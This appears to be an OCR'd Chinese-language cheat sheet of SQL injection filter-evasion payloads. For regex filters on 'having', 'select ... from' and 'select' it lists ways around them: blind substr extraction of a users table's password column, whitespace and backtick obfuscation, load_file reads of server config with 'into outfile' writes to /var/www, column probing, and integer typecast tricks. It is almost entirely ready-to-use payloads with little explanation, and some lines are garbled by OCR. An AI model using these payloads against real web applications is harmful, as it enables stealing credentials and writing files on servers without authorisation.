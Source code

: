关键字`having`

过滤代码`/having/i`

```
'and(select substr(group_concat(pass),1,1)from users)='a

```

关键字`select ... from`

过滤代码`/SELECT\s+[A-Za-z.]+\s+FROM/i/i`

```
select [all|distinct] pass from users
select`table_name`from`information_schema` . `tables`
select pass as alias from users
select pass aliasalias from users
select pass`alias alias`from users
select+pass%a0from(users)

```

关键字`select`

过滤代码`/select/i`

### 1 有文件读取权限

```
' and substr(load_file('file'),locate('DocumentRoot',(load_file('file')))+
length('DocumentRoot'),10)='a'='' into outfile '/var/www/dump.txt

```

### 2 获取列名

```
' and 列名 is not null#
' procedure analyse()#

```

使用substr来做过滤条件

```
'and substr(pass,1,1)='a

```

关键字`select,and,&`

'0#

```
select data from users where name = ''-0 # int typecast
select data from users where name = 0 # int typecast
select data from users where 0 = 0 # true

```
